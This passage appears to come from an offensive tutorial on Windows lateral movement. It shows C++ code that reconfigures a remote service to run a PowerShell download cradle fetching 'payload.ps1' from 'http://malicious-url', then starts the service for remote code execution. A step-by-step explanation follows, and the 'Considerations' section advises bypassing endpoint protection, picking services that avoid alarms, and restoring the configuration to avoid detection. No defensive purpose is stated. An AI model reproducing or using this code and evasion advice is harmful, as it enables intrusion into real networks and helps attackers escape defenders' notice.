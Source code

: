```cpp
    const char* newBinaryPath = "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe -c \"IEX(New-Object Net.WebClient).DownloadString('http://malicious-url/payload.ps1')\"";
    
    if (!ModifyServiceAndExecute(hService, newBinaryPath)) {
        std::cerr << "Failed to modify the service and execute the payload." << std::endl;
        CloseServiceHandle(hService);
        CloseServiceHandle(hSCManager);
        return 1;
    }

    // Step 4: Clean up
    CloseServiceHandle(hService);
    CloseServiceHandle(hSCManager);

    return 0;
}
```

### **Explanation of the Code**

1. **Connecting to SCM**:
   - We connect to the SCM on the remote machine using `OpenSCManagerW`. This grants us a handle to interact with services on the target.

2. **Opening the Target Service**:
   - We open the existing service using `OpenServiceW` with the permissions `SERVICE_CHANGE_CONFIG | SERVICE_START`, which allows us to modify the service configuration and start it.

3. **Modifying the Service Configuration**:
   - We use `ChangeServiceConfigA` to change the binary path that the service executes. In this example, the new path is a PowerShell command that downloads and executes a script from a remote URL.

4. **Starting the Service**:
   - We then use `StartServiceA` to start the service, which executes the new binary or command, resulting in remote code execution.

5. **Cleaning Up**:
   - Handles to the service and SCM are closed to clean up resources.

### **Considerations**

- **PowerShell Download Cradle**: The example uses a PowerShell command to download and execute a script from a URL. This avoids writing files to disk and can help bypass certain endpoint protection measures.
  
- **Target Service**: You need to choose a service that can be modified without triggering security alarms. It should be a service that doesn't frequently restart or log configuration changes.
  
- **Error Handling**: Additional error handling can be added for robustness, especially for scenarios where the service might not start due to misconfigurations or security policies.
  
- **Cleanup**: Consider restoring the original service configuration after the attack to avoid detection.
